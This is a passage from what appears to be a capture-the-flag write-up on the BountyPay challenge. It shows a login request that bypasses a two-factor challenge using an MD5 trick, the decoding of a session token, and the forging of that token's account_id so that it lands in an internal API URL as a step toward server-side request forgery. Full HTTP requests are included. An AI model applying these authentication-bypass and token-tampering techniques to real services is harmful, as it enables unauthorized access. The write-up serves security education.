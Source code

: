 ```
username=brian.oliver&password=V7h0inzX&challenge=5828c689761cce705a1c84d9b1a1ed5e&challenge_answer=bD83Jk27dQ
```

Whoaaaa, that's right! We are logged in as Brian Oliver!
{F853862}

Actually, what I then found out is that no matter which *challenge_answer* you insert, it is just enough that the *challenge* is the MD5 of that, and this will be useful later.

## SSRF to Android APK
Ok so, what can we do as Brian Oliver?
Not so much apparently as all the transactions seem to be empty :(

At this point I took a look at my Burp History and noticed that after login the server set for us what appears to be a JWT Token `eyJhY2NvdW50X2lkIjoiRjhnSGlxU2RwSyIsImhhc2giOiJkZTIzNWJmZmQyM2RmNjk5NWFkNGUwOTMwYmFhYzFhMiJ9` that when Base64 decoded resulted to be like this:
- `{"account_id":"F8gHiqSdpK","hash":"de235bffd23df6995ad4e0930baac1a2"}`

So there is an accountID and a hash.
Let's search these values in our Burp History to check if they were maybe already appeared somewhere else.

Mmm...that's interesting. The *account_id* value is present in the response to the following GET request related to the loading of specific transactions like https://app.bountypay.h1ctf.com/statements?month=01&year=2020:
{F853868}

However, by directly trying to request the API https://api.bountypay.h1ctf.com/api/accounts/F8gHiqSdpK/statements?month=04&year=2020 we receive an error: *["Missing or invalid Token"]*.
So, it appears that in order to use APIs we have to first obtain a valid token, so that's not the way for now.

So, after brainstorming a series of "What if?" (that's the job of an hacker, after all :D ) I thought:
- "What if I try to manipulate the accountID and see what happens?"

So, for example, by modifying the *account_id* to *test*:
```
GET /statements?month=03&year=2020 HTTP/1.1
Host: app.bountypay.h1ctf.com
Connection: close
Accept: */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/82.0.4078.0 Safari/537.36 autochrome/blue
X-Requested-With: XMLHttpRequest
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://app.bountypay.h1ctf.com/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: token=eyJhY2NvdW50X2lkIjoidGVzdCIsImhhc2giOiJkZTIzNWJmZmQyM2RmNjk5NWFkNGUwOTMwYmFhYzFhMiJ9
```
We can see that the *account_id* value is used to construct the related API URL.
```
{"url":"https:\/\/api.bountypay.h1ctf.com\/api\/accounts\/test\/statements?month=03&year=2020","data":"[\"Invalid Account ID\"]"}
```
